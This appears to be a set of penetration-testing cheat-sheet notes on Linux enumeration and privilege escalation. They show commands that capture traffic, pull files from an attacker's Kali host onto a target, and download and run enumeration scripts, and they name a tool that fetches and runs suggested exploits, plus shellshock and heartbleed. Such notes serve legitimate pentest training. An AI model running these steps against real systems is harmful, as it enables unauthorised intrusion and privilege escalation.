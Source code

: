 #### Inspect web traffic

```
tcpdump tcp port 80 -w output.pcap -i eth0
```

## Scripts to run

### Copy them over

Creates folder `/tmp/rowbot` and copies files on kali web server to target

```
wget -nd -np -R "index.html*" -P /tmp/rowbot --recursive http://kali$ip
```

What is running, any cron jobs any scripts? Use PSPY to find out

```
https://github.com/DominicBreuker/pspy
```

Useful script to run for initial scan - displays info on box

```
wget https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh
sed -i -e 's/\r$//' bangenum.sh
./bangenum.sh
```

Use this tool first to help you get in the PE mindset.

```
https://github.com/diego-treitos/linux-smart-enumeration
```

### SUID search - good tool

```
https://github.com/Anon-Exploiter/SUID3NUM
https://github.com/TH3xACE/SUDO_KILLER
```

### Automatically downloads and compiles exploit

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

```
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
```

```
USAGE: xploit_installer.py <exploit id>
```

### Linux Remote Exploits

```
47: shellshock
48: heartbleed
```
